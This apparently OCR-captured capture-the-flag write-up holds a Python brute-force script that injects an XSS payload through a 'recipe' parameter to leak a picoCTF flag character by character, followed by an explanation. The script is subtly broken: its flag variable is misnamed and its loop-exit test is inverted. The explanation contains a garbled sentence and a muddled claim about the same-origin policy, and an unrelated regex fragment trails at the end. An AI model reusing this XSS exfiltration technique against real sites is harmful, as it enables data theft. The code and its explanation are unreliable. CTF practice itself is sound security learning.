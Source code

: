 ```python
    "recipe": [['Water', 'Earth'], ['Water', 'Air'], ['Mist', 'Fire'], ['Mud', 'Fog'], ['Fire', 'Earth'], ['Magma', 'Mud'], ['Obsidian', 'Water'], ['Sludge', 'Hot Spring'], ['Steam Engine', 'Fire'], ['Earth', 'Air'], ['Heat Engine', 'Dust'], ['Sand', 'Fire'], ['Obsidian', 'Earth'], ['Hot Spring', 'Steam Engine'], ['Computer Chip', 'Electricity'], ['Glass', 'Software'], ['Computer Chip', 'Steam Engine'], ['Computer Chip', 'Fire'], ['Artificial Intelligence', 'Data'], ['Software', 'Encryption'], ['Vulnerability', 'Cybersecurity'], ['Electricity', 'Software'], ['Magma', 'Mist'], ['Rock', 'Air'], ['Program', 'Internet'], ['Exploit', 'Web Design']],
    "xss": xss})

flag = "picoCTF{"
idx = 8
url = 'http://rhea.picoctf.net:64687/remoteCraft'
# url = 'http://rhea.picoctf.net:61582/remoteCraft'

charset = string.printable

while True:
    print(f"Flag: {flag}")
    for string in charset:
        print(f"Trying: {flag + string}")

        isFound = False
        chr = string
        xss = "if (JSON.parse(atob(window.location.hash.slice(1))).flag[" + str(idx) + "] == " + "'" + string + "'" +"){document.body.innerHTML+=`<iframe srcdoc=\"<script src='${location.origin}//'>\"></iframe>`;};"
        print(xss)
        cnt = 0

        while cnt <= 15:
            try:
                full = f"{url}?recipe={requests.utils.quote(doxss(xss))}"
                requests.get(full)    
            except ConnectionRefusedError:
                flag += charset[charset.index(string)-1]
                idx += 1
                cnt = 15
                is_Found = True
                continue

            if isFound:
                break

            cnt += 1
            
        # print(f"[Counter: {cnt}, isFound: {isFound}]")

    if len(flag) != 0 and flag[-1] != '}':
        break
```
This script performs a bruteforce to find the missing character in a flag by sending GET requests to a URL with a parameter 'recipe' set to a JSON object containing an XSS payload. The iframe is being used to trigger a ConnectionRefusedError to determine if the current character being tested is the missing character in the flag. The iframe is being added to the body that contains a script from the same origin as the parent page. This is a technique used in XSS attacks to bypass the same-origin policy and execute scripts from the same origin as the parent page. In this case, the iframe in the flag by triggering a ConnectionRefusedError when the correct character is found. All you have to do is change the url in the script to that of your challenge instance and then run the script


[ ]: Matches any one character within the specified range or set.